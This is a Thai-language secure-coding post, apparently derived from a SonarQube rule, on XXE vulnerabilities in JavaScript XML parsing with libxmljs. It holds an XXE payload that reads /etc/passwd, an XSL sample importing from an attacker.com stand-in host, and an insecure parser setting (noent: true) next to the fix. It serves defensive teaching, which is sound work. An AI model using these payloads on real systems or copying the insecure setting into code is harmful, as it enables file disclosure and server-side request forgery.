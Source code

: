 # [Code4Sec Week](https://www.facebook.com/hashtag/code4sec) / Day 4 - XML External Entities (XXE) in JavaScript.
[#NEIS0736](https://www.facebook.com/hashtag/neis0736) [#NECS0736](https://www.facebook.com/hashtag/necs0736)

![JavaScript](/images/JS.gif)

## XML parsers should not be vulnerable to XXE attacks

[XML specification](https://www.w3.org/TR/xml/) อนุญาตให้ใช้ entities ที่เป็น [internal](https://www.w3.org/TR/xml/#sec-internal-ent) หรือ [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...) ซึ่งอาจนำไปสู่ช่องโหว่เช่น ไฟล์ชั้นความลับถูกเปิดเผยหรือ[SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

ตัวอย่างในไฟล์ XML นี้ entity ภายนอกสามารถอ่านไฟล์ /etc/passwd ได้:

```
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

ในไฟล์ XSL นี้อนุญาตให้เครือข่ายเข้าถึงได้ ซึ่งอาจนำไปสู่ช่องโหว่ SSRF :

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet>
It is recommended to disable access to external entities and network access in general.
```

**ตัวอย่างที่ไม่ปลอดภัย**

[libxmljs](https://github.com/libxmljs/libxmljs) module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml, { noblanks: true, noent: true, nocdata: true }); // Noncompliant: noent set to true
```

**แนวทางแก้ไขที่ถูกต้อง**

[libxmljs](https://github.com/libxmljs/libxmljs) module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml); // Compliant: noent set to false by default
```

**เพิ่มเติม**

* [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)) - XML External Entities (XXE)
* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
* [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

**แหล่งที่มา**

[<img src="/images/sonarqube.svg" alt="SonarQube" height="50">](https://rules.sonarsource.com/javascript/RSPEC-2755)
